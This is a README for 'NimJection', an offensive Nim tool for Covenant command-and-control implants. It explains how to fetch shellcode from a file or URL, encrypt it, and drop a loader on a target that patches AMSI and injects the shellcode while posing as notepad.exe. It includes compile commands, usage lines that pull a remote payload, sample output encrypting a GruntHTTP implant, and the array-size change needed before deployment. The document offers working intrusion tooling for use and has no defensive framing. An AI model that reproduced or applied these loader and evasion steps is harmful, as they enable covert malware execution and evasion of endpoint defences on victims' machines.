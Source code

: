 # NimJection
My experiments with Nim for covenant implant operations. Highly recommend looking at Marcello Salvati’s https://github.com/byt3bl33d3r repo which i used massively for this project.

Highly recomend 
## PrepPayload
Used for grabbing b64 shellcode, either from a file or URL, converting it to correct format and encrypting using specified encryption key. Creates encrypt.txt file containing encrypted shellcode for use with NimJection.

### Compile Instructions:
```
nim c -d:ssl PrepPayload.nim
```
> Experienced SSL problems if cross compiling in Windows from Unix so would recommend compiling on platform you’re going to use it on.

### Usage
```
Flags:
--url
--file
--enkey encryption key, DEAFULT: Nimjection

./PrepPayload  --url:http://127.0.0.1/shellcode Get Remote Payload
./PrepPayload --file:"Local Payload File"       Get Local Payload
```

## NimJection
What you drop onto target. Decrypts ‘encrypt.txt’, either locally or via grabbing it from URL, created by PrepPayload, does some AMSI patching and then injects and executes resulting shellcode pretending to be notepad.exe.

### Compile Instructions:
```
nim c -d:ssl NimJection.nim
```
> Recommend compiling on windows due to SSL issues – but if grabbing file locally/over http ‘should’ work via cross compile

### Usage
```
--url
--file
--enkey encryption key

Usage:
./Nimjection.exe  --url:http://127.0.0.1/shellcode      Get Remote Payload
./Nimjection.exe --file:"Local Payload File"    Get Local Payload
```



There is a slight issue with the code in the fact that byte array sizes need to be declared at compile. To aid in usage, PrePayload will display the byte array size in its output:

```
./PrepPayload --url:https://127.0.0.1/GruntHTTP.bin.b64 --enkey:test

Grabbing payload from: https://127.0.0.1/GruntHTTP.bin.b64
[*] Using httpclient
Encrypting Payload...
IV: 03A5EF054B596D12055585BC99C8160D
ENKEY: test
ENCRYPTED PAYLOAD: ./encrypt.txt
PAYLOAD SIZE = 43132 Check decrypt nim dectext array size matches
```
Before compiling Nimjector for use on a target, decryt.nim needs to be checked/changed to have the right return array size and dextext array size.

```
proc decrypt*(envkey = "", payload = ""): array[43132,byte] =

dectext: array[43132,byte]

```


